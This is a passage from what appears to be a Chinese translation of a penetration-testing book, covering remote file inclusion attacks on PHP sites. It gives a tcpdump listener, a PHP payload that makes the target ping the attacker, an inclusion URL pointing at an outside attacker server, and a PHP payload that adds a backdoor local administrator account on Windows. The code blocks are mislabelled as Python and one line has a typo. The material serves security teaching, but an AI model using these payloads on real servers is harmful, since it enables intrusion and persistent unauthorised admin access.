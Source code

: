 然后，您可以通过在**统一资源定位符**（**URL**）请求栏中输入带有端口号 8000 的主机 IP 地址，用冒号分隔，访问该站点。这样做后，您将看到向服务器发送的许多请求以获取信息。您刚刚建立的新服务器可以用来引用要在目标服务器上运行的脚本。此屏幕截图显示了发送到服务器的相关请求：

![文件包含攻击的执行](img/B04315_07_08.jpg)

如前所述，有时可以使用其他协议与目标 Web 服务器进行交互。如果您通过将 IP 地址添加到防火墙或访问控制列表（ACL）的授权列表中，为自己提供了对半受信任网络或 DMZ 的更多访问权限，您可能能够看到诸如**服务器消息块**（**SMB**）或 RDP 之类的服务。因此，根据环境，您可能不必为自己提供额外的访问权限；只需破解 Web 服务器可能就足以为您提供足够的访问权限。

大多数文件包含漏洞与**PHP**网站相关。其他语言集可能存在漏洞，但基于 PHP 的站点最常见。因此，让我们创建一些伪装成文本文件的 PHP 脚本来验证漏洞并利用底层服务器。

### 验证 RFI 漏洞

当您怀疑自己发现了 RFI 漏洞时，您需要在利用之前验证是否实际存在漏洞。首先，在面向互联网的服务器上启动`tcpdump`服务，并使其监听带有以下命令的**Internet Control Message Protocol**（**ICMP**）回显：

```py
sudo tcpdump icmp[icmptype]=icmp-echo -vvv -s 0 -X -i any -w /tmp/ping.pcap

```

此命令将生成一个文件，其中将捕获由`ping`命令发送的所有消息。对暴露的 Web 服务器进行 ping 操作，找到服务器的实际 IP 地址，并记录下来。然后，创建以下 PHP 文件，将其存储为名为`ping.txt`的文本文件：

```py
<pre style="text-align:left;">
<?php
    echo shell_exec('ping -c 1 <listening server>');
?>
</pre>
```

您现在可以通过以下命令引用文件来执行攻击：

[`www.example.website.com/?target=70.106.216.176:8000/server/ping.txt`](http://www.example.website.com/?target=70.106.216.176:8000/server/ping.txt)

一旦攻击执行完毕，您可以使用以下命令查看**数据包捕获（PCAP）**：

```py
tcpdump -tttt -r /tmp/ping.pcap

```

如果您从您 ping 的同一台服务器看到 ICMP 回显，那么您就知道该服务器容易受到 RFI 的攻击。

### 通过 RFI 利用主机

当您找到一个易受攻击的 Windows 主机时，通常会以特权帐户运行。因此，首先，通过 PHP 脚本向系统添加另一个本地管理员帐户可能是有用的。通过创建以下脚本并将其写入诸如`account.txt`之类的文本文件来完成这一点：

```py
<pre style="text-align:left;">
<?php
    echo shell_exec('net user pentester ComplexPasswordToPreventCompromise1234 /add');
    echo shell_exec('net localgroup administrators pentester /add'):
?>
</pre>
```
